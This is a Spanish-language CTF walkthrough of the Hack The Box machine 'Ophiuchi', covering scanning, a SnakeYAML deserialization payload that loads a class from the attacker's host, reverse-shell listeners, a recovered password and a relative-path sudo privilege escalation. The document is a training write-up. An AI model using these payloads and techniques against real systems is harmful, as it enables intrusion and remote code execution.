



# Ophiuchi


## Enumeración.

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos.

```text
# Nmap 7.91 scan initiated Fri Feb 19 12:06:00 2021 as: nmap -p- --open -v -n -oG allPorts 10.10.10.227
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.227 ()	Status: Up
Host: 10.10.10.227 ()	Ports: 22/open/tcp//ssh///, 8080/open/tcp//http-proxy///	Ignored State: closed (65533)
# Nmap done at Fri Feb 19 12:06:28 2021 -- 1 IP address (1 host up) scanned in 28.55 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p- | Escaneo a los 65536 puertos |
| --open | Reporta solo los puertos con estado "open". |
| -T5 | Exploracion a velocidades insanas \(lo hago porque es un entorno de pruebas\). |
| -v | Muestra más información sobre el sondeo que se está realizando. |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts. |

Posteriormente verificamos la versión de los servicios en los puertos abiertos y lanzamos los scripts por defecto.

```text
# Nmap 7.91 scan initiated Fri Feb 19 12:14:36 2021 as: nmap -sCV -p 22,8080 -oN targeted 10.10.10.227
Nmap scan report for 10.10.10.227
Host is up (0.071s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 19 12:14:47 2021 -- 1 IP address (1 host up) scanned in 11.15 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p22,80,8065 | Escaneo a los puertos 22, 80 y 8065. |
| -sC | Escanea con los scripts por defecto. |
| -sV | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN | Exporta los resultados en un formato nmap. |

Fuzzing a http://10.10.10.227/ con dirb

```text
dirb http://10.10.10.227/ -X .jsp,.html,.txt /usr/share/dirb/wordlists/common.txt
```


<table>
  <thead>
    <tr>
      <th style="text-align:left">-X</th>
      <th style="text-align:left">
        <p>Bandera que indica que tipo de extensi&#xF3;n queremos agregar a las palabras
          del diccionario</p>
        <p>Con el uso de dirb solo obtuvimos que hay una p&#xE1;gina con el nombre
          index.jsp</p>
      </th>
    </tr>
  </thead>
  <tbody></tbody>
</table>

Con el uso de dirb solo obtuvimos que hay una página con el nombre index.jsp

Al terminar de usar las herramientas de enumeración seguir enumerando de manera manual usando navegador


La página principal contiene un aparente servicio de analizador de YAML, hay más páginas en internet que tienen ese mismo tipo de aplicación.


En el caso de la máquina Ophiuchi la máquina siempre nos envía el mismo mensaje.


## Punto de acceso.

Aquí obtenemos como pista que la aplicación tiene una vulnerabilidad, probablemente de tipo RCE. Investigando sobre posibles vulnerabilidades encontré una manera de explotar una vulnerabilidad de deserialización en la librería SnakeYaml


Haciendo uso de la función yaml.load\(\) permite al atacante ejecutar código de manera remota al analizar un archivo de tipo yaml. En este caso el archivo yaml sería el código enviado en el input anterior.

Para explotar la vulnerabilidad me apoyé de una herramienta publicada en github.



Para explotar la vulnerabilidad es necesario contar con tres carpetas y un código.

En una carpeta


Código:

```text
!!javax.script.ScriptEngineManager [
 !!java.net.URLClassLoader [[
 !!java.net.URL ["http://10.10.14.227/"]
 ]]
]
```

Para explotar la vulnerabilidad es necesario primero modificar y compilar el archivo AwesomeScriptEngineFactory.java


El cambio por realizar sería modificar la llamada en el proceso Runtime.getRuntime\(\).exec\(\);


El cambio fue hacer un llamado a la shell de Linux y realizar un reverse Shell. Compilamos el archivo.

```text
javac src/artsploit/AwesomeScriptEngineFactory.java
```

Para ejecutar el exploit solo es necesario levantar el servidor HTTP y ejecutar un código en la aplicación de la máquina Ophiuchi

```text
python3 -m http.server 80
```

También al mismo tiempo nos ponemos en escucha para recibir la conexcion.

```text
nc -lvnp 8000
```

Solo se tiene que enviar la cadena para explotar la vulnerabilidad


Obtenemos la Shell


## Movimiento lateral.

### Usuario admin.

Tenemos el usuario tomcat, el siguiente paso es realizar una enumeración del sistema para escalar usuario, lo primero que realice fue acceder a /home para conocer cuáles podrían ser los usuarios a obtener.


Solo hay un usuario llamado admin que tiene su carpeta personal en /home. Para iniciar con la búsqueda empecé desde la dirección principal para el usuario tomcat la cual es: /opt/tomcat

Búsqueda recursiva en busca de caracteres.

```text
grep -r -i password 2>/dev/null
```

Como resultado obtuvimos una contraseña perteneciente al usuario admin.


Usuario: admin, Password: whythereisalimit

Esta contraseña funciona para el login web de tomcat, pero resulta ser la misma para la terminal

## Escalada de privilegios

Verificamos si podemos correr algo como sudo de forma temporal.


El usuario admin tiene permisos de ejecución root en un archivo llamado index.go ubicado en /opt/functions-wasm/


El archivo contiene código escrito en lenguaje go, lo que hace es tomar el archivo llamado main.wasm y tomar el valor de una instancia llamada info, si el valor de esa instancia es diferente de “1” solo enviará un mensaje que dice:

“Not ready to deploy”

Si es igual a “1” entonces ejecuta un script bash llamado deploy.sh

Hay una mala práctica de programación en este archivo y es que las direcciones a las que llama al archivo main.wasm y deploy.sh son direcciones relativas y no absolutas. Esto quiere decir que si esta aplicación se ejecuta desde otra carpeta que contenga los archivos main.wasm y deploy.sh este último podrá ser ejecutado con permisos root.

Para hacer esto empecé por buscar una forma de editar el archivo main.wasm este puede ser convertido a un formato de texto con la ayuda de la herramienta



Ahora descargue el archivo main.wasm usando el netcat para descargarlo en mi máquina Linux.

Para convertir el archivo main.wasm


Obtuve un archivo llamado main.wat




Al revisar el contenido del archivo wat pude ver que hay una función llamada info que tiene una constante de valor 0, lo que significa que siempre será diferente de 1, por lo tanto lo único que hay que hacer es cambiar el valor de esa constante.



Ahora solo queda transformarlo en un archivo wasm


Para el archivo deploy.sh solo realicé una reverse Shell escrita en python3


Para llevarlos al servidor utilicé nuevamente `python3 -m http.serve`r, descargue los archivos y los meti en la carpeta /tmp.

Coloque `netcat` en modo escucha para obtener la Shell


Ahora solo queda ejecutar el archivo desde la carpeta /temp \(en la cual coloque los archivos deploy.sh y main.wasm\)


Al ejecutar el programa nos lanza el mensaje “Ready to deploy” y mantiene ejecutando la bash root



Conclusiones de esta máquina

* Si el administrador conoce que existe esta vulnerabilidad debe desactivar la aplicación del servlet en lugar de ejecutar y enviar un mensaje.
* Los usuarios no deben repetir contraseñas para distintas aplicaciones, en el caso del usuario admin estaba usando la misma contraseña para su terminal en Linux y la administración de tomcat
* Al hacer un control de ejecuciones root con una bash se debe utilizar una dirección absoluta para evitar una explotación como la que se utilizó.

